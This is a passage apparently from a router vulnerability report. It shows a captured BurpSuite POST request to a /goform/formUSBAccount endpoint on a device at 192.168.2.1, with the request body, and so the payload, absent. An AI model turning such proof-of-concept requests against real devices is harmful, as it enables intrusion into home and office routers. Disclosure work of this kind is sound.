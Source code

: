 ![](https://github.com/countfatcode/temp/blob/main/formUSBAccount/screenshot/5.png)

BurpSuite packet.

```python
POST /goform/formUSBAccount HTTP/1.1
Host: 192.168.2.1
Content-Length: 214
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.1
Referer: http://192.168.2.1/probe.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```